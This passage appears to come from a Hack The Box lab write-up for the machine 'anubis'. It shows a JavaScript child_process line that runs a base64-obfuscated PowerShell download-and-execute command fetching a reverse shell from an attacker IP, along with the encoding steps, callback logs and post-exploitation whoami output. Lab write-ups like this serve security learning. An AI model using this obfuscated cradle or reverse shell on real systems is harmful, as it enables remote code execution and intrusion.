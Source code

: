 ```javascript
require('child_process').exec("powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEANwAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQB8AGkAZQB4AA==")
```
`shell.ps1` is a simple tcp reverse shell onliner mentioned above already. Download itself in JS file above has been base64 encrypted using `pwsh`
```powershell
PS /home/luka/htb/anubis> $text = "(New-Object Net.WebClient).downloadString('http://10.10.14.17/shell.ps1')|iex"              
PS /home/luka/htb/anubis> $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)                               
PS /home/luka/htb/anubis> $EncodedText = [Convert]::ToBase64String($bytes)                                       
PS /home/luka/htb/anubis> $EncodedText                                                                           
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEANwAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQB8AGkAZQB4AA==
```
### Getting RCE
So after putting `Whatif.omv` back to the Earth there's a callback and we can see that shell was downloaded as well...
```
10.10.11.102 - - [10/Mar/2022:12:11:52 +0000] "GET /jamovi.js HTTP/1.1" 200 561 "http://127.0.0.1:58953/346d1e8b-594f-4084-b832-8a8fc11ab7e0/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) jamovi/6.1.9 Chrome/76.0.3809.146 Electron/6.1.9 Safari/537.36"
10.10.11.102 - - [10/Mar/2022:12:11:56 +0000] "GET /shell.ps1 HTTP/1.1" 200 762 "-" "-"
10.10.11.102 - - [10/Mar/2022:12:11:56 +0000] "GET /shell.ps1 HTTP/1.1" 200 762 "-" "-"
```
... followed by code execution
![](/assets/images/2022-03-10-09-13-42.png)
### WHOAMI = diegocruz
![](/assets/images/2022-03-10-09-17-02.png)
So we'Re diegocruz, medium mandatory level (not an admin) and member of some `webdevelopers` group.
No special Privileges assigned
```
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

```